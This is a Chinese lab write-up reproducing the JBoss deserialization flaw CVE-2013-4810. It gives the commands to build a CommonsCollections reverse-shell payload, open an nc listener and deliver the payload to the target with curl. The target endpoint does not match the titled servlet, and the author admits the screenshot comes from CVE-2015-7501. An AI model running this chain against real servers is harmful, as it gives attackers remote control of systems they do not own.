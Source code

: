```yaml
---
title: （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞
id: zhfly2983
---
```


# （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle 返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈~），说明接口开发，存在反序列化漏洞

![image](../img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](../img/778060853ab56211b93d767fa8272659.png)